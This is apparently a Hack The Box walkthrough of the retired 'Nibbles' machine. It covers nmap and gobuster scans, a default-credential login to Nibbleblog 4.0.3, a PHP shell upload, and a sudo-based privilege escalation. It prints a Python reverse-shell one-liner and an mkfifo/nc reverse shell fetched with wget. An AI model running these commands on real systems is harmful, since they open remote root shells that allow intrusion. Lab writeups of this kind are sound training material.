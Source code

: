 ```yaml
---
title: Nibbles Hackthebox Writeup
date: 2020-12-27 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,nibbleblog,nibbleblog v4.0.3,php]     # TAG names should always be lowercase
image: /assets/img/nibbles-hackthebox/nibbles-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Nibbles:~$


Column | Details
------------ | -------------
Name | Nibbles
IP | 10.10.10.75
Points | 20
Os | Linux
Difficult | Easy
Creator | [mrb3n](https://www.hackthebox.eu/profile/2984)
Out on | 13th january 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Found `/nibbleblog/` in **source code**, and then used `gobuster` for searching directories.
* Accessing `/nibbleblog/admin` page with *default* credentials as `admin:nibbles`.
* Got `User Shell` by uploading a PHP reverse shell.
* Escalated Privileges using `sudo -l` and then changed the content of a file which can be run as sudo.

# Starting:~$

## Nmap

Running nmap gave us that `Port 80` is open. Let's check port 80.

**Nmap Command**: `nmap -T4 -sV -Pn 10.10.10.7`

___
![](/assets/img/nibbles-hackthebox/port-80-2.png)

Let's check the `source code` of this page.

___
![](/assets/img/nibbles-hackthebox/checking-source-code-3.png)

Accessing `/nibbleblog/` We got this:

___
![](/assets/img/nibbles-hackthebox/checking-nibbleblog-website-4.png)

I ran `gobuster` on /nibbleblog/ for *directory searching*.

**Command**: *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75/nibbleblog/ -t 100*

___
![](/assets/img/nibbles-hackthebox/gobuster-6.png)

I got to know `Nibbleblog` version by checking `/nibbleblog/README` which is `v4.0.3`

___
![](/assets/img/nibbles-hackthebox/accessing-readme-7.png)

Accessing `/nibbleblog/admin`, I got an admin pannel for *Nibbleblog*.

___
![](/assets/img/nibbles-hackthebox/admin-area-access-9.png)

Tried using the default credentials for **Nibbleblog** i.e. *Username*: `admin` and *Password*: `nibbles` and logged into the dashboard.

___
![](/assets/img/nibbles-hackthebox/nibbles-admin-dashboard-10.png)

I googled about `Nibbleblog version 4.0.3` and found this [blog](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/).

___
![](/assets/img/nibbles-hackthebox/nibble-version-search-8.png)

Uploaded a single line [php shell](https://www.grobinson.me/single-line-php-script-to-gain-shell/) and accessed it as mentioned in the above `blog`.

___
![](/assets/img/nibbles-hackthebox/single-line-php-shell-11.png)

Now to get a `reverse shell`, I captured the request in *burp repeater* and sent my `python` payload with *URL encoding*.
[Python Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Command**: *python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.X.X”,4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'*

___
![](/assets/img/nibbles-hackthebox/got-user-shell-12.png)

For `Privilege Escalation`, I used the command `sudo -l` to check what permissions do we have.

___
![](/assets/img/nibbles-hackthebox/sudo-l-14.png)

We can run `monitor.sh` as administrator, let's access **personal.zip** using the `unzip` command and then replace `monitor.sh` with our own malicious *monitor.sh* to get `Root`.

___
![](/assets/img/nibbles-hackthebox/unzip-15.png)

Replacing `monitor.sh` with our infected *monitor.sh*.

**monitor.sh**: `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 8899 >/tmp/f"`

Transfering it via `wget command`.

**Wget Command**: wget http://10.10.X.X:8081/monitor.sh

**Hosting Command for monitor.sh**: *python3 -m http.server 8081*

___
![](/assets/nibbles-hackthebox/wget-commands-16.png)

Running `monitor.sh` as sudo and listeing on the specified port on `nc`. We got `Root`.

___
![](/assets/img/nibbles-hackthebox/got-root.png)
